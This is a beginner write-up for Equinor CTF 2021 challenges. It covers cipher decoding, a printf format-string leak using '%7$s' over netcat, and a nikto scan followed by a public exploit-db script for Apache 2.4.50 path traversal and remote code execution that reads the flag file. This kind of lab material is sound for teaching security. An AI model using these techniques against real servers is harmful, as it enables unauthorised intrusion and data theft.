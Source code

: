 # Beginner challenges

## Sanity

This one gives you the flag just for connecting.\
Sometimes it's nice just to be appreciated 😊

````
nc io.ept.gg 30020
Welcome to Equinor CTF! Enter to get your sanity flag!
>
EPT{let_the_games_begin}
````


## Encoding or encryption

Task:
```
Is encoding and encryption the same thing?

55 6b 4e 48 65 32 6f 7a 58 32 4e 6f 5a 31 39 6d 4d 48 6f 7a 58 7a 4e 68 63 44 42 78 64 6d 46 30 58 7a 46 68 58 32 77 77 61 47 56 66 4d 32 46 77 5a 57 78 6e 64 6a 42 68 66 51 3d 3d
```
Using the ever handy Cyberchef:
String from hex, looks base64 enocded(ends in ==)\
A string with RCG{ with the hin "is decoding the same as encoding" like ROT13\
==> `EPT{w3_put_s0m3_3nc0ding_1n_y0ur_3ncryti0n}`

## Baby0

File baby0 in Taskfiles.

Task:
`Magical strings are great`

From a linux box run the command `strings| grep EPT` to get:\
`EPT{strings_are_great!}`

Strings command will extract any string in a binary file and print it. We know how the flag looks, and I was too lazy to use the full regex.

## Cipher salad with vinaigrette is so tasty

Task is picture of Mr. Vignère and a file: vignere-cipher.txt in Taskfiles.

The picture of Mr. Vignère, the cipher.txt file contains years and wordspacing clearly looking like the  wikipedia entry \
for the Vignère cipher. [https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher]  \
Rather large ciphertext that ends with the string:  `RVD{zgzlvwzw_In_E_cml_Hw_Tht}`

Tries the vignere solver on : [https://www.boxentriq.com/code-breaking/vigenere-cipher]  ,and autosolve gets pretty close.\
Tries several times with larger and larger keysizes and ends up with:\
`thisisaverystrongkey`

Back to Cyberchef to translate the entire ciphertext with a vignère decode module, inserting the key from above and we get\
`congratulations you have found the flag: EPT{vigenere_Is_A_lot_Of_Fun}`

## I think we have a roof leak

Task:
``` 
The printf function in expects one or more parameters. In the man page its defined as: int printf(const char *format, ...);

If the first (and only) argument is a pointer string without any formating options it just prints the string. But what happens\
if we only have one argument, that is user controlled?

The man page can be a good place to start.

nc io.ept.gg 30021
```
Taskfiles: pwn1.c and pwn1

Connecting to the instance and it responds with whatever we put into it.\
Googling for any sort of help gets a whole bunch of stack formatting things.\

Basically; give an input with a format string like `%2s` will do magic stuff.\
Shamelessly copying from other CTF writeups indicates that a string "%<number>$s" prints data from the stack.\
Trying a for-loop on the compiled program:\ 

````
for i in ` seq 1 19 `; do echo $i; echo \%${i}\$s | ./pwn1;done
output:
...
6
Enter some text:
(null)
7
Enter some text:
EPT{REDACTED}
8
Enter some text:
Segmentation fault
...
````
Reading the sourcecode provided we see the line `char flag[]  = "EPT{REDACTED}";` so we're getting somewhere

Tries to give the instance the string `'%7$s'`:
```
echo \%7\$s |nc io.ept.gg 30021
Enter some text:
EPT{w00tw00t_you_found_m3}
```

## AH-64
Task:
```
 Super Six One, go to UHF secure. I've got some bad news. We see vulnerabilites like it is 2001. Tango located in /opt/flag

Site: AH-64(links to http://io.ept.gg:30071/ )
```

AH-64 is the Apache helicopter, and we get a link, so clearly an Apache vulnerability.\
Some aimless googling for apache vulnerabilites and a kali linux instance provides the tool `nikto` to scan websites

```
└─# nikto -host io.ept.gg -port 30071
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          176.34.167.207
+ Target Hostname:    io.ept.gg
+ Target Port:        30071
+ Start Time:         2021-10-30 10:41:46 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.50 (Unix)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: POST, OPTIONS, HEAD, GET, TRACE
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
```

Since we need to find print the output of the file `/opt/flag` on the server we need to run some code, so more googling\
and a `searchsploit apache` looking for Remote Code Execution gives us

```
┌──(root💀cf89b1317ce8)-[/]
└─# searchsploit -p 50406
  Exploit: Apache HTTP Server 2.4.50 - Path Traversal & Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50406
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50406.sh
File Type: ASCII text
```
Running the shell to find out what it needs is a targets.txt file with the target and a "command" so...
```
┌──(root💀cf89b1317ce8)-[/]
└─# cat targets.txt
io.ept.gg:30071

┌──(root💀cf89b1317ce8)-[/]
└─# /usr/share/exploitdb/exploits/multiple/webapps/50406.sh targets.txt /opt/flag
io.ept.gg:30071
EPT{we've_got_a_blackhawk_down_we've_got_a_blackhawk_down_i_mean_apache}

```

## never-gonna-exclude-you

Hint: are we eXclusive-OR?\

Taskfile: xor-cipher.txt

Trying the trusty cyberchef gives little results for guessing any xor'ing.\
Googling CTFs and XOR provides the tool `xortool`\
Jumping into a linux instance and running the suggested command on the ciphertext
```
[root@686b9ce9d4ce xor]# yum search xortool
Last metadata expiration check: 0:19:47 ago on Sat Oct 30 11:44:58 2021.
============================================ Name Exactly Matched: xortool =============================================
xortool.noarch : Tool for XOR cipher analysis

[root@686b9ce9d4ce xor]# xortool -x -c ' ' xor-cipher.txt
The most probable key lengths:
   1:   12.2%
   8:   9.7%
  11:   24.1%
  16:   6.6%
  18:   6.4%
  20:   5.7%
  22:   14.1%
  33:   9.1%
  44:   6.9%
  55:   5.4%
Key-length can be 4*n
1 possible key(s) of length 11:
'rick astley
Found 1 plaintexts with 95%+ valid characters
See files filename-key.csv, filename-char_used-perc_valid.csv
```
xortool outputted some files as it says and one contained the plaintext. I'll save you the rolling, but the end of the\
file said `RVBUe3gwci0xNS1mdW59` that Cyberchef easily suggest Base64 decoding to  `EPT{x0r-15-fun}`
